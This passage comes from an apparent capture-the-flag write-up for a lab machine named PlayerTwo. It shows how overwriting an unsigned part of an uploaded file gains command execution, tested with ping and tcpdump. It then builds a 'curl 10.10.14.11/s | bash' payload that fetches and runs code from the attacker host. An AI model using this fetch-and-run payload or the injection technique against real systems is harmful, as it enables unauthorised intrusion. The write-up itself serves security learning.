 I'll explore why in [Beyond Root](#signature-bypass), but basically the
signature verification only signatures the start of the file.

### RCE

#### Strategy

Given that I can overwrite this string and it doesn't break the
signature, and that I suspect it's being passed to `system`, I can
execute whatever I want. The largest constraint is that I can't make the
command longer than the length of `stty raw -echo min 0 time 10`.
Actually, looking at the hex dump above, I think I could actually
overwrite the null there and continue into `stty sane` and five of the
six nulls that follow it without breaking anything if the longer string
is called first.

#### ping

I'll start by trying to think of command I can run in 28 characters to
test my theory. `ping` seems like a good test case:

![](/img/image-20200122205815988.png)

I add it to a `.tar`, upload it, and watch `tcpdump`:



    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    20:58:48.055752 IP player2.htb > kali: ICMP echo request, id 46845, seq 1, length 64
    20:58:48.055770 IP kali > player2.htb: ICMP echo reply, id 46845, seq 1, length 64



#### Shell

Now that I know I can execute, I'll use `curl` to have PlayerTwo reach
out to me for more code, and pipe that to shell. Here's a payload that's
25 characters long:



    root@kali# echo -n "curl 10.10.14.11/s | bash" | wc -c
    25



Update `Proto.bin`:

![](/img/image-20200122210251592.png)
